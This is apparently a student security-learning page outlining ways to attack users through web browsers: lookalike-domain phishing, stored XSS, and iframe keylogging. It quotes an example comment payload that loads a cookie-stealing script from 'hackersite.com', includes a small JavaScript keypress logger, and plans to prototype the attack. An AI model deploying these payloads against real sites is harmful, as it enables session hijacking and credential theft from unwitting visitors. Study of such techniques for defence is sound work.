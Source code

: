 ### Introduction

This document is a part of a learning project: Attacking Web Browsers

This page is meant to break down found methods for attacking user trough web browser. 
This document is meant to be updated when more methods are being explored.

#### Social engineering angle

Convincing a user to enter a spoofed site, while posing as legitimate. For example registering similar looking domain name (see kela.fi and keia.fi, or using non-ASCII characters).

The attacker can try to impersonate the legitimate website by mimicing the content of the website to try to get the user to for example log into the site.
Possible risk for user include credential or personal information theft. This method can also make it possible to get the user to load a malicious site, even though the user wouldn't perform any actions in the site itself. Methods for exploiting this are to be researched in the project.
Methods for getting the user to use a link for the malicious website:
- link in an another application
  - Email
  - Social media
  - Video conference apps
  - VoIP
- trough search engine or other trusted website
  - comment sections in forums

#### Stored XSS attack idea

If a website has a vulnerability, that allows permanent script embedding or a malicious website allowing this, the attacker could use HTML tag to activate a JavaScrip file hosted in another website.

"For example attacker could add a comment on a site that allows HTML tags to be embedded in a comment section. The embedded tags become a permanent feature of the page, causing the browser to parse them with the rest of the source code every time the page is opened.
The attacker adds the following comment: Great price for a great item! Read my review here <script src=”http:/ /hackersite.com/authstealer.js”> </script>.
From this point on, every time the page is accessed, the HTML tag in the comment will activate a JavaScript file, which is hosted on another site, and has the ability to steal visitors’ session cookies.
Using the session cookie, the attacker can compromise the visitor’s account, granting him easy access to his personal information and credit card data. Meanwhile, the visitor, who may never have even scrolled down to the comments section, is not aware that the attack took place."

Example found: https://www.imperva.com/learn/application-security/cross-site-scripting-xss-attacks/

#### Keylogger
Stored XXS attack could also be used for iframe keylogger. If you could activate nearly invicible (opacity set to 0.0001) or 0x0 sized iframe on top of legitimate or legitimate looking website, you could get user to type for example usernames and passwords and use JavaScript to record the keypresses. A step further would be to seemingly print the key strokes on the victim web page.

some XXS sources for future:

https://github.com/chentetran/xss-keylogger

https://gist.github.com/JeppeLeth/294f1955d792274839c2

```
var stolen = "";
 document.addEventListener('keydown', logKey);
 function logKey(e) {
   if (e.key != "Meta" && e.key != "Shift" && e.key != "Alt" ) {
     stolen = stolen + e.key;
   }
   document.getElementById('log').innerHTML = stolen;
 }
 ```
 source: https://gracefulsecurity.com/clickjacking-and-javascript-keylogging-in-iframes/
 
 #### Project continuation...
 
 Next step in the project is to scope more methods for attacking the user trough browser. Stored XXS attack seems interesting and possibly to be prototyped. Requirements for this are at least: 
 - creating a script for the purpose
 - hosting a website for the JS
 - hosting an example victim site

